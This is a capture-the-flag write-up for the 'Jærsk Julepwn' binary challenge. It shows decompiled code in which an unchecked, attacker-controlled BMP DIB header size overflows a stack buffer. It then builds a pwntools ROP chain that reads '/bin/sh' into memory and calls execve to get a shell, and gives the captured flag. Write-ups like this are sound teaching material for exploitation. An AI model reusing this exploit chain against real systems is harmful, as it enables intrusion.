 # 🔥 Jærsk Julepwn 🔥

`Carixo` @ Iku-toppene

## Introduction

*Jærsk Julepwn* is a binary challenge where we input a message, input BMP, and output BMP as `argv` parameters. It then performs some random stuff. I honestly don't know what it does since I never actually tried running the binary the intended way. 

## Analysis

The binary has a lot of code, and because it's statically compiled, there is even more code. This does however mean that there are plenty of gadgets to use. 

I started by opening the binary in Ghidra and examining the error messages. While the messages themselves are just random gibberish, they help identify where in the binary the code has crashed or failed. The most important "error" message is probably:
```c
  else {
    printf("Usage: %s <message> <input_bmp> <output_bmp>\n",*argv);
    uVar3 = 1;
  }
```

This message hints at the parameters and which functions use them. In this case:

- `argv[1]` corresponds to `message`
- `argv[2]` corresponds to `input_bmp`


Since we control both `message` and `input_bmp`, I started by examining the functions that use these parameters.

The first function opens the `message` file, saves the content in a heap chunk, and returns the heap pointer.

```c
void * read_RYAOrlhDFATpppdjSvnI_uAcCjZslXRWbcRlNDvUc_into_array(char *message,size_t *message_size)

{
  FILE *__stream;
  void *__ptr;
  size_t __n;
  
  __stream = fopen64(message,"r");
  if (__stream == (FILE *)0x0) {
    fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
    __ptr = (void *)0x0;
  }
  else {
    fseek(__stream,0,2);
    __n = ftell(__stream);
    fseek(__stream,0,0);
    __ptr = malloc(__n + 1);
    if (__ptr == (void *)0x0) {
      fwrite("dEWjbGlaaYamseHMRLsB\n",1,0x15,(FILE *)stderr);
      fclose(__stream);
      __ptr = (void *)0x0;
    }
    else {
      fread(__ptr,1,__n,__stream);
      *(undefined *)((long)__ptr + __n) = 0;
      fclose(__stream);
      if (message_size != (size_t *)0x0) {
        *message_size = __n;
      }
    }
  }
  return __ptr;
}
```
Not much going on here.

The second function, however, seems to be the BMP parser. It takes three pointers as parameters: a pointer (`char*`) to the filename of the input BMP, a `short` pointer where the BMP file header is stored, and a `uint` pointer where the DIB header is stored. This is basically where I stopped my analysis. I noticed a `fread` with `nmemb` set to `DIB_hdrSize - 4`, allowing us to control how many bytes `fread` reads since we control the input BMP and its DIB header size. This opens up a **buffer overflow**.

```c

void * BXMaZvZkKJWwCwhdPcgm(char *input_bmp,short *pInpBMPHdr,uint *buffer)

{
  size_t sVar1;
  uint pDIB_hdrSize;
  void *local_18;
  FILE *fd;
  
  fd = fopen64(input_bmp,"rb");
  if (fd == (FILE *)0x0) {
    fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
    local_18 = (void *)0x0;
  }
  else {
    sVar1 = fread(pInpBMPHdr,14,1,fd);
    if (sVar1 == 1) {
      if (*pInpBMPHdr == 0x4d42) { // check if header starts with BM
        sVar1 = fread(&pDIB_hdrSize,4,1,fd); // we control this
        if (sVar1 == 1) {
          memset(buffer,0,0x7c);
          *buffer = pDIB_hdrSize;
          sVar1 = fread(buffer + 1,1,(ulong)pDIB_hdrSize - 4,fd); // so we also control this
          if (sVar1 == (ulong)pDIB_hdrSize - 4) {
            local_18 = malloc((ulong)buffer[5]);
            if (local_18 == (void *)0x0) {
              fwrite("dEWjbGlaaYamseHMRLsB 32jK JOAPSFD vSBrFLJcJWtbKaObJyeu\n",1,0x37,
                     (FILE *)stderr);
              fclose(fd);
              local_18 = (void *)0x0;
            }
            else {
              fseek(fd,(ulong)*(uint *)(pInpBMPHdr + 5),0);
              fread(local_18,1,(ulong)buffer[5],fd);
              fclose(fd);
            }
          }
          else {
            fwrite("inVwjsMlYDliYKrsAKHk\n",1,0x15,(FILE *)stderr);
            fclose(fd);
            local_18 = (void *)0x0;
          }
        }
        else {
          fwrite("inVwjsMlYDliYKrsAKHk EMOicOHFBYnOIJfgcuPU\n",1,0x2a,(FILE *)stderr);
          fclose(fd);
          local_18 = (void *)0x0;
        }
      }
      else {
        fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
        fclose(fd);
        local_18 = (void *)0x0;
      }
    }
    else {
      fwrite("uAcCjZslXRWbcRlNDvUc\n",1,0x15,(FILE *)stderr);
      fclose(fd);
      local_18 = (void *)0x0;
    }
  }
  return local_18;
}
```
I didn't check the protections the binary had enabled during the analysis, but now I see that canary is "enabled". Although `checksec` indicates that canary protection is enabled, the functions written by `@nordbo` don’t actually check the canary  (no local_10 check with `fs[0x28]`). `checksec` likely shows the canary because some libc functions include it.

## Exploitation
We start by creating a BMP file that starts with `BM` and is padded to 14 bytes to pass the first header check:
```py
bmp = b"BM".ljust(14, b"A")
```
Now that the check is passed, we are one step closer to the buffer overflow.

The next 4 bytes will be the DIB header size, which controls how many bytes `fread` will read from `fd`. For simplicity, I just added 4 `A`s. Therefore, this code will run:

```c
sVar1 = fread(buffer + 1,1, 0x41414141 - 4,fd);
```

The next step is calculating the padding needed to reach the saved return address. We can use `gdb`'s `cyclic` command, read the assembly, or check Ghidra.

In the `main` function in Ghidra, we can see that the variable it takes as `param_3` is named `local_c8`, basically meaning it is `0xc8` bytes away from the saved RIP. The saved `rbp` is for example `Stack[-0x8]` or `local_8`. 

```c
local_28 = (void *)BXMaZvZkKJWwCwhdPcgm(argv[2],local_46,local_c8);
```

However, note that `fread` reads to `buffer + 1`, so we need to subtract `0xc8` by `0x4` (the size of a `uint`). This gives us the padding: **196 bytes**.

Now we can start constructing our ROP chain. I decided on using a combination of `ROPgadget` and the `ROP()` object in `pwntools`. Since `pop rdx; ret` doesn't exist in the binary, I decided to use:
```py
pop_rdx = 0x000000000041c212 # : pop rdx ; add byte ptr [rax], al ; cmovne rax, rdx ; ret
```
This gadget pops a value into `rdx` and then manipulates `rax` and the memory pointed to by `rax`, without modifying `rdx`. So we need to ensure `rax` points to a valid address before using the gadget.

The ROP chain has two parts:
1. A `read()` to write `/bin/sh` into memory
2. An `execve` syscall to get shell


```py
rop = ROP(elf)
rop.rax = elf.bss(0x10) # `pop rdx` gadget requires a valid pointer in `rax`
rop.rdi = 0
rop.rsi = elf.bss(0x100) # location to store `/bin/sh`
rop.raw(pop_rdx)
rop.raw(8)
rop.raw(elf.sym.read)
rop.rdi = elf.bss(0x100) # pointer to `/bin/sh`
rop.rsi = 0
rop.rax = elf.bss(0x200) # valid pointer for `pop rdx` gadget
rop.raw(pop_rdx)
rop.raw(0)
rop.rax = 59
rop.raw(rop.syscall.address)
```

In the `read()`, we send in `/bin/sh\0` 

Boom, shell. 

Full [solve](./code/solve.py) script. 

![solve](./assets/image.png)

**Flag: EPT{759b757f1ae9e1c4572f0dee6590199e}**